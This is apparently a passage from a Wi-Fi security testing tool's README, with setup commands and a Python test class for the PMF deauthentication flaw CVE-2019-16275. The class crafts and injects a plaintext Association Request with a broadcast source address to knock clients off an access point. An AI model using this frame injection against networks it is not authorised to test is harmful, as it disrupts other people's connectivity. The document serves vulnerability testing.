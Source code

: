 ```python
		# Load our user-defined function, PING'ing the control interface.
		# (Optional) Automatically terminate the test case after our action.
		self.actions[1].set_function( self.ping )
		self.actions[1].set_terminate( delay=2 )
```

#### Configuration
Load any configuration, for example, ```wpa2-personal```:
```
cd setup; ./load-config.sh wpa2-personal
```

#### Execution
Let us start an access point:
```
./hostap.py wlan0 --ap
```
We can now run our client, which will perform the demonstration:
```
./run.py wlan1 example-demo
```

## Wi-Fi PMF Deauthentication Vulnerability

Test for deauthentication vulnerabilities when Wi-Fi Protected Management Frames (PMF) is enabled.

Specifically, we test if an access point is vulnerable to ```CVE-2019-16275```.

This example tests weaknesses in access points, by acting as a supplicant.

#### Definition
```python
class ExamplePMFDeauthCVE(Test):
	""" Deauthentication vulnerability against an access point (CVE-2019-16275).
	"""
	name = "example-pmf-deauth"
	kind = Test.Supplicant
	
	def __init__(self):
		super().__init__([
			# Inject an invalid Association Request.
			Action( trigger=Trigger.Connected, action=Action.Inject ),
			# If the station is disconnected, we can terminate the test.
			Action( trigger=Trigger.Disconnected, action=Action.Terminate )
		])
		
	def generate(self, station):
		
		# Contruct an invalid Association Request using a Broadcast MAC address.
		frame = Dot11()/Dot11AssoReq()
		frame[Dot11].addr1 = station.bss
		frame[Dot11].addr2 = "ff:ff:ff:ff:ff:ff" # Source Address.
		frame[Dot11].addr3 = station.bss
		
		# Transmit plaintext frame, after some delay.
		self.actions[0].set_frame( frame , encrypt=False , mon=True )
		self.actions[0].set_delay( 2 )
```
